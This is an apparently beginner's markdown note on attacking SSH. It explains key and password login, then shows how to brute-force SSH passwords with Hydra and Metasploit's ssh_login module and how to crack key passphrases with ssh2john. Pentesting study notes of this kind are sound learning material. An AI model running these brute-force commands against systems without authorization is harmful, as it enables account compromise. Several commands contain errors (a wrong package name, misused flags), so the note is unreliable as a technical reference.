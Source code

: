 ## SSH Exploititng
 - ### **SSH** *stands for secure shell that allows to gain computer shell across the network*
 - It use port 22
 - If you went to ssh in your Linux first download `openssh-service`
 ```shell
sudo apt install openssh-service
 ```
 - To start ur ssh simply in your terminal type
 ``` shell
 sudo systemctl start ssh | service ssh start
 ```
## SSH Login
<hr>


 - *There are two ways of  autentication  method to got*
 > # Id RSA
 > It use private  and public key to connect the shell
 > To generate private and pulic key on your computer
 ``` shell
 sudo ssh-keygen
 ```
 >  *This command generate private and public key name in your .ssh directory named **id_rsa** and **Id_rsa.pub** respectivily*
> If u have private key you able to login on your remote machine
``` shell
ssh -l id_rsa@ip_addres(of remote computer)
```
> - When we generate private and public idrsa it ask password (optional)
> - when we going to login with ssh it maybe required
> - To Brute force password using IdRSA we use `ssh2john`
> - This script help you find the hashed password
>
># Using Username and password
> - This method is only using password and username of remote shell.
``` shell
ssh username@ip_addr
```
> - Example ``` ssh hanter@129.168.2.12 ```
> - and fill your password after hited on Enter

# Exploits
- There are alot of way to Exploit /  Bruteforce the ssh
- In this note we use Hydra and Metasploit to connect / Brute force username and password
## using hydra
- **Hydra is one of the most poular tool to bruteforce the online passwods**
- *hydar use usernaem and password to brute force the login*
- you need to preoare password and username list
- ### ✔ To be fast instead of making username list first cheek or identify the username or use `enum4linux` tool to enumrate the username of machine
``` shell
hydra -l username.txt -p password.txt ssh://127.0.0.1
```
- Hydra not only use for shh it also use ftp server to crack password
## using Metasploit
> - Using Metasploit frame work it we can bruteforce the  password
> - star the metasploit Frame work using command ```msfconsole```
> - And search auxiliary
``` shell
search auxiliary/scanner/ssh/ssh_login
```
> - And use it by using `use` command
### Requirements
- set rhost = remote machine ip
``` shell
set RHOST 127.0.0.1
```
- set username   = Username of the machine using wordlistt
``` shell
set user_file
```
- set password file
``` shell
set pass_file
```
- And Finally Run/Exploit
``` shell
exploit
```
